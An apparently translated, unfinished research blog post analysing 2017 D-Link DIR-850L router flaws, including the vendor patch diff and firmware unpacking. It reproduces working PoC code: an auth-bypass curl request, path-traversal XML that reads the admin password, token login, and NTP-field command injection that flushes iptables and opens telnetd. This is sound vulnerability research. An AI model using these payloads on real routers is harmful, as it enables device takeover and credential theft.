



Preface
I flipped through my notes to see if there was anything worth publishing, and found this one—but it’s already outdated. I spent one night getting about halfway through it, then got sent on a business trip. Another intern couldn’t finish it, so it ended up being dropped. It doesn’t have much research value now, so I’ll just post it anyway.
On August 10, 2017, CNVD published an authentication information disclosure vulnerability and a remote command execution vulnerability affecting D-Link DIR series routers (CNVD-2017-20002, CNVD-2017-20001). According to Knownsec’s verification, affected D-Link router models are not limited to the officially confirmed DIR-850L; other affected models include DIR-868L, DIR-600, DIR-860L, DIR-815, DIR-890L, DIR-610L, and DIR-822. Related exploit code has been published on the internet. The number of affected devices is estimated to exceed 200,000, which may trigger large-scale cyber attacks.
We purchased a DIR-850L/B1, a model not officially confirmed but listed as affected, in order to verify whether the issues described in the advisory are real.
We also downloaded the latest firmware of other models in the affected list for analysis, to validate the reliability of the data.
Verification Preparation
First, we simulated a real-world usage environment: configured internet access parameters, set the Wi‑Fi password and the admin password, and registered a MyDlink account.

We planned to verify the vulnerabilities on the current version (2.06) first, then flash the latest firmware and verify again. The latest official firmware for DIR-850L/B1 is 2.07B05, released on 02/21/17, which suggests the vendor did not patch it.
Then we tested whether the target device could be accessed directly via WAN. The result showed that the device could not be accessed directly through WAN.

Unless remote management is manually enabled, you can only access the router via the WAN port on a non-80 port.

Analysis
The original author stated that the remote command execution is composed of two vulnerabilities, and that the combination allows arbitrary command execution.
- An unauthenticated user can upload arbitrary files
- An administrator user can execute arbitrary code
However, we did not find evidence proving arbitrary file upload.
Patch Diff

The main changed executable is cgibin, and the script files are DEVICE.TIME.php and fatlady.php.
DEVICE.TIME.php adds validation of the NTP server domain name to prevent command injection.

fatlady.php adds filtering for relative-path construction characters.

We first analyzed the PoC and firmware of DIR-850L/A. The author’s PoC demonstrated 4 issues and chained them to achieve remote command execution.
Unauthorized Access
Unauthenticated users can directly access CGI endpoints.
cookies = {"uid": "whatever"}
Using a header with AUTHORIZED_GROUP>=1 can also bypass the validation:
curl -d "SERVICES=DEVICE.ACCOUNT&x=y&AUTHORIZED_GROUP=1" "http://192.168.1.159:8080/getcfg.php"
Reading the Admin Password
Craft an XML, send it to /hedwig.cgi, then read the username and password from the response.
headers = {"Content-Type": "text/xml"}
cookies = {"uid": "whatever"}
data = """<?xml version="1.0" encoding="utf-8"?>
<postxml>
<module>
<service>../../../htdocs/webinc/getcfg/DEVICE.ACCOUNT.xml</service>
</module>
</postxml>"""
resp = session.post(urljoin(TARGET, "/hedwig.cgi"), headers=headers, cookies=cookies, data=data)
accdata = resp.text[:resp.text.find("<?xml")]
admin_pasw = ""
tree = lxml.etree.fromstring(accdata)
accounts = tree.xpath("/module/device/account/entry")
for acc in accounts:
name = acc.findtext("name", "")
pasw = acc.findtext("password", "")
print("name:", name)
print("pass:", pasw)
if name == "Admin":
admin_pasw = pasw
Brute-Forcing the Login Token
The encrypted password in the payload can be constructed by yourself and brute-forced. In the PoC it is used to log in and obtain the cookie.
resp = session.get(urljoin(TARGET, "/authentication.cgi"))
# print(resp.text)
resp = json.loads(resp.text)
if resp["status"].lower() != "ok":
print("Failed!")
print(resp.text)
sys.exit()
print("uid:", resp["uid"])
print("challenge:", resp["challenge"])
session.cookies.update({"uid": resp["uid"]})
print("Auth login...")
user_name = "Admin"
user_pasw = admin_pasw
data = {
"id": user_name,
"password": hmac.new(user_pasw.encode(), (user_name + resp["challenge"]).encode(), "md5").hexdigest().upper()
}
resp = session.post(urljoin(TARGET, "/authentication.cgi"), data=data)
Two Command Injections
Both pigwidgeon.cgi and hedwig.cgi have command injection. The payload is sent by crafting XML and then POSTing it.
data = {"SERVICES": "DEVICE.TIME"}
resp = session.post(urljoin(TARGET, "/getcfg.php"), data=data)
tree = lxml.etree.fromstring(resp.content)
tree.xpath("//ntp/enable")[0].text = "1"
tree.xpath("//ntp/server")[0].text = "metelesku; (" + COMMAND + ") & exit; "
tree.xpath("//ntp6/enable")[0].text = "1"
data = lxml.etree.tostring(tree)
After reviewing the PoC, we unpacked the D-Link firmware and analyzed the files:
binwalk DIR850LA1_FW114b07WW.bin
dd bs=1 skip=1638544 if=DIR850LA1_FW114b07WW.bin of=DIR850LA1_FW114b07WW.squashfs
unsquashfs DIR850LA1_FW114b07WW.squashfs
We found that the CGI files in this directory are all symlinks pointing to cgibin.

The web backend provides HNAP WebServices via PHP, and the frontend makes asynchronous requests.
We analyzed the executable /htdocs/cgibin used to dispatch PHP and followed from the entry point.

It matches the corresponding CGI via argv[0]; the CGI then executes the PHP file. If there is no match, it outputs:
CGI.BIN, unknown command argv[0]

hedwigcgi_main parses the received XML text into parameters, then passes them to /htdocs/webinc/fatlady.php.

The key is these three lines: it reads the service parameter and lets PHP load a file.
$service = query("service");
$target = "/htdocs/phplib/fatlady/".$service.".php";
if (isfile($target)==1) dophp("load", $target);
By crafting directory traversal, you can achieve arbitrary file inclusion and leak sensitive information.
/htdocs/phplib/fatlady/../../../htdocs/webinc/getcfg/DEVICE.ACCOUNT.xml.php

pigwidgeoncgi_main first checks whether the session belongs to an admin. If yes, it parses the XML, sets the ACTION parameter to SETCFG, and passes it to /htdocs/webinc/wand.php.



Key code:
$svc = query("service");
$file = "/htdocs/phplib/setcfg/".$svc.".php";
if (isfile($file)==1) dophp("load", $file);
Then it can include the specified file DEVICE.TIME:
service = DEVICE.TIME
server = metelesku; (iptables -F;iptables -X;iptables -t nat -F;iptables -t nat -X;iptables -t mangle -F;iptables -t mangle -X;iptables -P INPUT ACCEPT;iptables -P FORWARD ACCEPT;iptables -P OUTPUT ACCEPT;telnetd -p 23090 -l /bin/date) &; exit;
Verification
The above analysis is based on DIR-850L/A firmware 1.14.B07. After running the PoC script against DIR-850L/B, we were able to reproduce three of the issues. Only some CGI endpoints were accessible without authorization; getcfg.php required login.

Without an admin cookie, command injection only returned OK on hedwig.cgi; pigwidgeon returned “no power”.

In the China firmware, the login endpoint authentication.cgi becomes webfa_authentication.cgi.
Verify unauthorized CGI access:

Verify local file inclusion to read the username/password:

Code injection:
Analyzing DIR-850L/B
Because the advisory did not specify the hardware revision or firmware version, the PoC’s exploit scope is limited. We are not yet sure whether DIR-850L/B is truly vulnerable; we need to analyze the 850L/B firmware. However, the firmware on the official site is encrypted and cannot be analyzed directly. There are two options: obtain root to extract the firmware, or dump the firmware by reading the flash chip.
This time another LAN arbitrary command execution issue also surfaced. The exploitation conditions are strict: the system runs dnsmasq as root, and its daemon obtains the "host-name" parameter from the DHCP server, concatenates it, and executes it. We can obtain root by injecting commands.


Mounted partitions for extracted firmware:
dd if=/dev/mtdblock/7 of=/var/tmp/storage/Generic_Ubuntu_C2EE4/mtdblock0.bin bs=8
unsquashfs mtdblock0.bin
TODO 1
Analyze differences in file layout and program behavior and write them up.
Internet-wide Scan Statistics
TODO 0
Use Allseeing’s internet-wide scan results and write a script to count routers that are vulnerable and exploitable.
 CC BY-NC-SA 4.0
CC BY-NC-SA 4.0